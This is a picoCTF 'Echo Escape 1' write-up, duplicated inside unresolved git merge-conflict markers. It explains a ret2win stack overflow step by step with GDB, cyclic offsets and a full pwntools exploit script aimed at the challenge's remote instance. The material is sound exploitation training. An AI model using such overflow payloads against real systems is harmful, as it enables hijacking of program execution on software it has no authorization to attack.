<<<<<<< HEAD


# Echo Escape 1 — Ret2Win Buffer Overflow Exploit

## 📌 Overview

> “Programs become vulnerable when memory boundaries are ignored.”

Echo Escape 1 is a binary exploitation challenge from picoCTF 2026 that demonstrates a classic **stack buffer overflow vulnerability**.

---

# 🛠️ Tools Used

| Tool                 | Purpose                                                                                                    |
| -------------------- | ---------------------------------------------------------------------------------------------------------- |
| **GDB**              | Used for runtime debugging and analyzing program behavior during execution                                 |
| **GEF / pwndbg**     | Enhanced GDB extensions used for easier stack inspection, cyclic pattern generation, and register analysis |
| **Pwntools**         | Python exploitation framework used for payload creation and remote exploitation                            |
| **Python 3**         | Used for writing and executing the exploit script                                                          |
| **Netcat (`nc`)**    | Used to communicate with the remote picoCTF challenge instance                                             |
| **Linux Terminal**   | Used for file management, exploit execution, and debugging workflow                                        |
| **Sublime Text**     | Used for reviewing and analyzing the source code                                                           |
| **picoCTF Platform** | Used to launch the remote challenge instance and validate the flag                                         |

---

# Step 1 — Creating the Workspace

The first step was creating a dedicated directory for the challenge files and exploitation workflow.

### Command Used



```bash
mkdir Echo_Escape1
```

### Why This Matters

Organizing challenge files into separate directories helps maintain a clean workflow, especially when working with:

* binaries
* exploit scripts
* debugging sessions
* screenshots
* payload files

This becomes extremely important when managing multiple CTF challenges simultaneously.

---

# Step 2 — Reviewing the Challenge Description


The challenge description explains that the program is a “secure” echo service that welcomes user input.

However, the real objective is to make the application reveal the hidden flag.

The challenge provides:

* the vulnerable binary
* source code
* a remote service instance

### Why This Matters

Reading the challenge description carefully helps identify:

* the attack surface
* expected challenge type
* possible exploitation direction

before beginning technical analysis.

---

# Step 3 — Obtaining the Binary and Source Code



After downloading the challenge files, the binary and source code were stored locally for analysis.

The directory contains:

```text
vuln
```

### Why This Matters

Having access to both the binary and source code makes exploitation significantly easier because we can:

* inspect program logic
* identify unsafe functions
* locate hidden functions
* reproduce crashes locally
* test payloads before attacking the remote instance

---

# Step 4 — Analyzing the Source Code




Reviewing the source code reveals several important findings.

The program contains a hidden function:

```c
void win()
```

This function opens `flag.txt` and prints its contents to the screen.

### Why This Matters

In many **Ret2Win** challenges, the objective is to redirect execution flow into a hidden function that already contains the flag-printing logic.

---

The vulnerable code appears inside `main()`:

```c
char buf[32];

read(0, buf, 128);
```

### Vulnerability Analysis

Problem:

* the stack buffer only allocates **32 bytes**
* `read()` accepts **128 bytes**

This allows user-controlled input to overflow beyond the intended buffer boundaries and overwrite adjacent stack data.

Most importantly:

* saved RBP
* saved RIP

### Why This Matters

Once RIP is overwritten, program execution can be redirected to attacker-controlled locations such as the hidden `win()` function.

---

# Step 5 — Launching the Program Inside GDB



The binary was executed inside GDB using GEF/pwndbg.

### Command Used

```bash
gdb ./vuln
```

### Why GDB Is Important

GDB allows us to:

* inspect memory during execution
* analyze crashes
* inspect registers
* understand stack behavior
* verify RIP control

This is one of the most important tools in binary exploitation.

---

# Step 6 — Observing Normal Program Behavior



The application was executed normally inside GDB.

The program:

* requests user input
* prints the supplied name
* exits successfully

At this stage, no crash occurs.

### Why This Matters

Testing normal behavior helps establish a baseline before triggering the vulnerability.

This allows us to compare:

* normal execution
* vulnerable execution
* crash behavior

---

# Step 7 — Generating a Cyclic Pattern



A cyclic pattern was generated using pwndbg:

```bash
cyclic 250 -n 8
```

### Why Cyclic Patterns Are Used

Cyclic patterns generate unique character sequences.

When the application crashes, the overwritten value helps determine the exact offset required to control RIP without manually counting bytes.

### Why `-n 8` Is Important

This challenge runs on **x86_64 architecture**, where:

* registers are 8 bytes wide
* memory addresses are 8 bytes wide

Using `-n 8` ensures correct pattern alignment for 64-bit systems.

---

# Step 8 — Triggering the Buffer Overflow



After sending the cyclic pattern to the application, the program crashes with:

```text
SIGSEGV
```

The crash occurs during the `ret` instruction.

### What This Confirms

* stack memory corruption
* saved return address overwrite
* invalid execution flow

Important observations:

```text
$rip -> ret
```

```text
$rbp -> overwritten
```

The stack contents also show the cyclic pattern extending beyond the intended buffer size.

### Why This Matters

This confirms that the overflow successfully reached control data on the stack.

---

# Step 9 — Inspecting the Stack Pointer



To identify the overwritten return address, the stack pointer was inspected:

```gdb
x/gx $rsp
```

Output:

```text
0x6161616161616166
```

### Why This Matters

The value stored at `$rsp` is the next value that the `ret` instruction will attempt to place into RIP.

This value comes directly from the cyclic pattern and is used to calculate the exact offset required for RIP control.

---

# Step 10 — Finding the Exact Offset



The overwritten value was analyzed using Pwntools:

```python
from pwn import *

print(cyclic_find(0x6161616161616166, n=8))
```

Result:

```text
40
```

### Why This Matters

This confirms that **40 bytes** are required before reaching RIP.

Understanding the stack layout explains this clearly:

```text
32 bytes -> buffer
8 bytes  -> saved RBP
----------------------
40 bytes -> RIP
```

Any bytes written after offset 40 overwrite the return address.

---

# Step 11 — Building the Final Payload

The hidden `win()` function address was identified:

```text
0x401256
```

Instead of manually piping payloads into `nc`, a proper **Pwntools exploit script** was created.

### Why Pwntools Is Important

Pwntools:

* automates exploitation
* reduces manual mistakes
* simplifies remote interaction
* makes payload construction easier
* provides reusable exploitation workflows

---

## Payload Structure

```python
b"A"*40 + p64(0x401256)
```

### Explanation

#### `b"A"*40`

Fills the stack buffer until RIP is reached.

Why exactly 40 bytes?

```text
32 bytes -> buffer
8 bytes  -> saved RBP
----------------------
40 bytes -> RIP
```

Anything written after byte 40 overwrites the return address.

---

#### `p64(0x401256)`

`p64()` converts the address into a **64-bit little-endian value**.

This is required because:

* the binary uses x86_64 architecture
* addresses are 8 bytes long
* memory stores values in little-endian format

Without `p64()`, the address would be treated as normal text instead of a valid memory address.

---

## Final Pwntools Exploit

```python
from pwn import *

##Load binary
elf = ELF('./vuln')

##Connect to remote service
p = remote('mysterious-sea.picoctf.net', 56939)

##Offset to RIP
offset = 40

##Address of win()
win = 0x401256

##Build payload
payload = b'A' * offset
payload += p64(win)

##Wait for prompt
p.recvuntil(b'name: ')

##Send payload
p.sendline(payload)

##Receive output
p.interactive()
```

### Why This Exploit Works

When the vulnerable function finishes execution, it executes the `ret` instruction.

Normally:

```text
ret -> returns to legitimate code
```

After exploitation:

```text
ret -> jumps directly into win()
```

Since `win()` already contains the logic for printing the flag, execution flow is successfully redirected and the flag is revealed.


---

# Step 12 — Retrieving the Flag


The payload was sent to the remote picoCTF instance.

The overwritten RIP successfully redirects execution into the hidden `win()` function, causing the application to print the contents of `flag.txt`.

### Why This Matters

This confirms successful control over program execution flow.

---

# Step 13 — Submitting the Flag



After retrieving the flag, it was submitted to the picoCTF platform.

The platform successfully validated the solution.

---

# Step 14 — Challenge Completion


The challenge was officially marked as solved by picoCTF.

---



---

# 📌 Conclusion

Echo Escape 1 demonstrates how a single unsafe `read()` operation can completely compromise program execution flow.

By understanding:

* stack memory layout
* saved RIP behavior
* cyclic offset analysis
* little-endian addressing
* runtime debugging

it becomes possible to redirect execution into attacker-controlled paths such as the hidden `win()` function.

This challenge highlights an important principle in binary exploitation:

> successful exploitation is based on understanding how memory behaves during execution, not guessing values.

---

This work is part of **FuzzRaiders’** structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability, methodological rigor, and effective security execution.

Happy hacking 🚀

---


=======


# Echo Escape 1 — Ret2Win Buffer Overflow Exploit

## 📌 Overview

> “Programs become vulnerable when memory boundaries are ignored.”

Echo Escape 1 is a binary exploitation challenge from picoCTF 2026 that demonstrates a classic **stack buffer overflow vulnerability**.

---

# 🛠️ Tools Used

| Tool                 | Purpose                                                                                                    |
| -------------------- | ---------------------------------------------------------------------------------------------------------- |
| **GDB**              | Used for runtime debugging and analyzing program behavior during execution                                 |
| **GEF / pwndbg**     | Enhanced GDB extensions used for easier stack inspection, cyclic pattern generation, and register analysis |
| **Pwntools**         | Python exploitation framework used for payload creation and remote exploitation                            |
| **Python 3**         | Used for writing and executing the exploit script                                                          |
| **Netcat (`nc`)**    | Used to communicate with the remote picoCTF challenge instance                                             |
| **Linux Terminal**   | Used for file management, exploit execution, and debugging workflow                                        |
| **Sublime Text**     | Used for reviewing and analyzing the source code                                                           |
| **picoCTF Platform** | Used to launch the remote challenge instance and validate the flag                                         |

---

# Step 1 — Creating the Workspace

The first step was creating a dedicated directory for the challenge files and exploitation workflow.

### Command Used


```bash
mkdir Echo_Escape1
```

### Why This Matters

Organizing challenge files into separate directories helps maintain a clean workflow, especially when working with:

* binaries
* exploit scripts
* debugging sessions
* screenshots
* payload files

This becomes extremely important when managing multiple CTF challenges simultaneously.

---

# Step 2 — Reviewing the Challenge Description


The challenge description explains that the program is a “secure” echo service that welcomes user input.

However, the real objective is to make the application reveal the hidden flag.

The challenge provides:

* the vulnerable binary
* source code
* a remote service instance

### Why This Matters

Reading the challenge description carefully helps identify:

* the attack surface
* expected challenge type
* possible exploitation direction

before beginning technical analysis.

---

# Step 3 — Obtaining the Binary and Source Code


After downloading the challenge files, the binary and source code were stored locally for analysis.

The directory contains:

```text
vuln
```

### Why This Matters

Having access to both the binary and source code makes exploitation significantly easier because we can:

* inspect program logic
* identify unsafe functions
* locate hidden functions
* reproduce crashes locally
* test payloads before attacking the remote instance

---

# Step 4 — Analyzing the Source Code


Reviewing the source code reveals several important findings.

The program contains a hidden function:

```c
void win()
```

This function opens `flag.txt` and prints its contents to the screen.

### Why This Matters

In many **Ret2Win** challenges, the objective is to redirect execution flow into a hidden function that already contains the flag-printing logic.

---

The vulnerable code appears inside `main()`:

```c
char buf[32];

read(0, buf, 128);
```

### Vulnerability Analysis

Problem:

* the stack buffer only allocates **32 bytes**
* `read()` accepts **128 bytes**

This allows user-controlled input to overflow beyond the intended buffer boundaries and overwrite adjacent stack data.

Most importantly:

* saved RBP
* saved RIP

### Why This Matters

Once RIP is overwritten, program execution can be redirected to attacker-controlled locations such as the hidden `win()` function.

---

# Step 5 — Launching the Program Inside GDB


The binary was executed inside GDB using GEF/pwndbg.

### Command Used

```bash
gdb ./vuln
```

### Why GDB Is Important

GDB allows us to:

* inspect memory during execution
* analyze crashes
* inspect registers
* understand stack behavior
* verify RIP control

This is one of the most important tools in binary exploitation.

---

# Step 6 — Observing Normal Program Behavior


The application was executed normally inside GDB.

The program:

* requests user input
* prints the supplied name
* exits successfully

At this stage, no crash occurs.

### Why This Matters

Testing normal behavior helps establish a baseline before triggering the vulnerability.

This allows us to compare:

* normal execution
* vulnerable execution
* crash behavior

---

# Step 7 — Generating a Cyclic Pattern


A cyclic pattern was generated using pwndbg:

```bash
cyclic 250 -n 8
```

### Why Cyclic Patterns Are Used

Cyclic patterns generate unique character sequences.

When the application crashes, the overwritten value helps determine the exact offset required to control RIP without manually counting bytes.

### Why `-n 8` Is Important

This challenge runs on **x86_64 architecture**, where:

* registers are 8 bytes wide
* memory addresses are 8 bytes wide

Using `-n 8` ensures correct pattern alignment for 64-bit systems.

---

# Step 8 — Triggering the Buffer Overflow


After sending the cyclic pattern to the application, the program crashes with:

```text
SIGSEGV
```

The crash occurs during the `ret` instruction.

### What This Confirms

* stack memory corruption
* saved return address overwrite
* invalid execution flow

Important observations:

```text
$rip -> ret
```

```text
$rbp -> overwritten
```

The stack contents also show the cyclic pattern extending beyond the intended buffer size.

### Why This Matters

This confirms that the overflow successfully reached control data on the stack.

---

# Step 9 — Inspecting the Stack Pointer


To identify the overwritten return address, the stack pointer was inspected:

```gdb
x/gx $rsp
```

Output:

```text
0x6161616161616166
```

### Why This Matters

The value stored at `$rsp` is the next value that the `ret` instruction will attempt to place into RIP.

This value comes directly from the cyclic pattern and is used to calculate the exact offset required for RIP control.

---

# Step 10 — Finding the Exact Offset


The overwritten value was analyzed using Pwntools:

```python
from pwn import *

print(cyclic_find(0x6161616161616166, n=8))
```

Result:

```text
40
```

### Why This Matters

This confirms that **40 bytes** are required before reaching RIP.

Understanding the stack layout explains this clearly:

```text
32 bytes -> buffer
8 bytes  -> saved RBP
----------------------
40 bytes -> RIP
```

Any bytes written after offset 40 overwrite the return address.

---

# Step 11 — Building the Final Payload

The hidden `win()` function address was identified:

```text
0x401256
```

Instead of manually piping payloads into `nc`, a proper **Pwntools exploit script** was created.

### Why Pwntools Is Important

Pwntools:

* automates exploitation
* reduces manual mistakes
* simplifies remote interaction
* makes payload construction easier
* provides reusable exploitation workflows

---

## Payload Structure

```python
b"A"*40 + p64(0x401256)
```

### Explanation

#### `b"A"*40`

Fills the stack buffer until RIP is reached.

Why exactly 40 bytes?

```text
32 bytes -> buffer
8 bytes  -> saved RBP
----------------------
40 bytes -> RIP
```

Anything written after byte 40 overwrites the return address.

---

#### `p64(0x401256)`

`p64()` converts the address into a **64-bit little-endian value**.

This is required because:

* the binary uses x86_64 architecture
* addresses are 8 bytes long
* memory stores values in little-endian format

Without `p64()`, the address would be treated as normal text instead of a valid memory address.

---

## Final Pwntools Exploit

```python
from pwn import *

##Load binary
elf = ELF('./vuln')

##Connect to remote service
p = remote('mysterious-sea.picoctf.net', 56939)

##Offset to RIP
offset = 40

##Address of win()
win = 0x401256

##Build payload
payload = b'A' * offset
payload += p64(win)

##Wait for prompt
p.recvuntil(b'name: ')

##Send payload
p.sendline(payload)

##Receive output
p.interactive()
```

### Why This Exploit Works

When the vulnerable function finishes execution, it executes the `ret` instruction.

Normally:

```text
ret -> returns to legitimate code
```

After exploitation:

```text
ret -> jumps directly into win()
```

Since `win()` already contains the logic for printing the flag, execution flow is successfully redirected and the flag is revealed.


---

# Step 12 — Retrieving the Flag


The payload was sent to the remote picoCTF instance.

The overwritten RIP successfully redirects execution into the hidden `win()` function, causing the application to print the contents of `flag.txt`.

### Why This Matters

This confirms successful control over program execution flow.

---

# Step 13 — Submitting the Flag


After retrieving the flag, it was submitted to the picoCTF platform.

The platform successfully validated the solution.

---

# Step 14 — Challenge Completion


The challenge was officially marked as solved by picoCTF.

---


---

# 📌 Conclusion

Echo Escape 1 demonstrates how a single unsafe `read()` operation can completely compromise program execution flow.

By understanding:

* stack memory layout
* saved RIP behavior
* cyclic offset analysis
* little-endian addressing
* runtime debugging

it becomes possible to redirect execution into attacker-controlled paths such as the hidden `win()` function.

This challenge highlights an important principle in binary exploitation:

> successful exploitation is based on understanding how memory behaves during execution, not guessing values.

---

This work is part of **FuzzRaiders’** structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability, methodological rigor, and effective security execution.

Happy hacking 🚀

---


>>>>>>> e2f1e64ed69c75fab02ddb566d0b111d09cae925
